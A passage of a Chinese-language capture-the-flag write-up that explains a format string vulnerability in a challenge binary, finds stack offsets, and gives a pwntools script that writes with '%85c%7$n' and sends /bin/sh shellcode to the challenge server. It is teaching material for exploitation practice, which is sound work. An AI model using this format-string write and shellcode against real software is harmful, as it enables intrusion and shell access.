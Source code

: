 相信通过上面的图，a1 是上面的这个问题就已经很清晰了。

在 main 函数里面定义了，\*a1 就是 68，a1[1] 就是 85，那么这里就可以通过格式化字符漏洞来解题了，修改其中一个值使其与另外一个值相等即可。

![](https://vip1.loli.net/2019/12/27/HqYUuNFs4wTtCbx.png)

利用格式化字符漏洞的话，我们有两种可行的方法，一种是将目标地址放在上图中的 `&v2`，另外一种是直接放入 `&format` 中

![](https://vip1.loli.net/2019/12/27/Sm9oAbzeMGBvnZw.png)

放在 `&v2`的话偏移值就是 7，放在 `&format` 的话偏移值就是 8

偏移值确定好了，那么地址是什么呢？

![](https://vip1.loli.net/2019/12/27/QDX4w8J6xkWC2Iz.png)

其实根据 IDA 的 main 函数就能看出来，程序一开始为了降低难度就已经输出了相关的地址，本文中选用 `secret[0]` 即 `*a1` 以及 `&format` 的偏移来解题

即我们需要在 `Give me an address` 中输入 `secret[0]` 的值，在 `Your wish is`中输入 `'%85c%7$n` 来实现任意地址写的操作。

接下来问题基本上就解决了，最后他需要运行一个 shellcode ，我们可以在网上随便找一个 64 位的执行 /bin/sh 的 shellcode 即可

```python
#!/usr/bin/env python

from pwn import *

proc = './79fce6e54bca4825bb65611b55b294a1'

context.binary = proc
context.log_level = 'debug'

if args.R:
    p = remote('111.198.29.45', 55672)
else:
    p = process(proc)

shellcode = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

p.recvuntil('secret[0] is ')
address = int('0x' + p.recvuntil('\n').strip(), 16)

p.sendlineafter('name be:', 'imlonghao')
p.sendlineafter('So, where you will go?east or up?:', 'east')
p.sendlineafter('go into there(1), or leave(0)?:', '1')
p.sendlineafter('Give me an address', str(address))
p.sendlineafter('And, you wish is:', '%85c%7$n')
p.sendlineafter('Wizard: I will help you! USE YOU SPELL', shellcode)

p.interactive()
```

## guess_num

